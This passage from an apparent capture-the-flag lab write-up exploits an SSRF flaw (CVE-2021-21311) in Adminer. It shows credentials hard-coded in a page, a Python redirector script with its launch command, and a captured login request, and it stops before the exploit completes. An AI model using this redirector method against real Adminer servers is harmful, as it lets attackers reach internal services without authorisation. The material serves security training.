 There’s only one table and nothing really interesting in that. The reason why it didn’t ask for any credentials is that the credentials are hard-coded in the page and POST them once we click on "enter" button"
```html
<input type="hidden" name="auth[driver]" value="server">  
<input type="hidden" name="auth[server]" value="localhost">  
<input type="hidden" name="auth[username]" value="admirer_ro">  
<input type="hidden" name="auth[password]" value="1w4nn4b3adm1r3d2!">  
<input type='hidden' name="auth[db]" value="admirer"/>  
<input type='hidden' name="auth[permanent]" value="1"/>
```

#### ADMINER CVE
After trying to use this credentials to login via SSH and failing I found a [CVE-2021-21311](https://www.cvedetails.com/cve/CVE-2021-21311/) that could be useful. It affects all Adminer fromv ersion 4.0.0 and before 4.7.9. As we can see in the machine is running version 4.7.8 so it is vulnerable!
Basically is a Server-Side Request Forgery to access an internal server/service.
There’s a [POC](https://github.com/vrana/adminer/files/5957311/Adminer.SSRF.pdf) already available for this. We just need to setup a redirector on our Kali Linux machine.

```python redirector.py
#!/usr/bin/env python3  
#python3 ./redirector.py 8000 http://127.0.0.1/  
import sys  
from http.server import HTTPServer, BaseHTTPRequestHandler  
  
if len(sys.argv)-1 != 2:  
	print("Usage: {} <port_number> <url>".format(sys.argv[0]))  
	sys.exit()  
  
class Redirect(BaseHTTPRequestHandler):  
	def do_GET(self):  
		self.send_response(302)  
		self.send_header('Location', sys.argv[2])  
		self.end_headers()
		
HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Start the redirector script:
```bash
$ python3 redirector.py 80 http://127.0.0.1
```

For this to work, we need to capture the request of logging into the DB in Burp Suite. Make sure not to send this to repeater.

Analyse the login POST request:
```
POST /?server=localhost HTTP/1.1
Host: db.admirer-gallery.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://db.admirer-gallery.htb/?server=localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Origin: http://db.admirer-gallery.htb
Connection: close
Cookie: adminer_sid=aqj7ovn7kmpnjuce2nkuk246tb; adminer_key=ed3272eb38f41555a6213568a05fb352; adminer_version=4.8.1; adminer_permanent=
Upgrade-Insecure-Requests: 1

auth%5Bdriver%5D=server&auth%5Bserver%5D=localhost&auth%5Busername%5D=admirer_ro&auth%5Bpassword%5D=1w4nn4b3adm1r3d2%21&auth%5Bdb%5D=admirer&auth%5Bpermanent%5D=1
```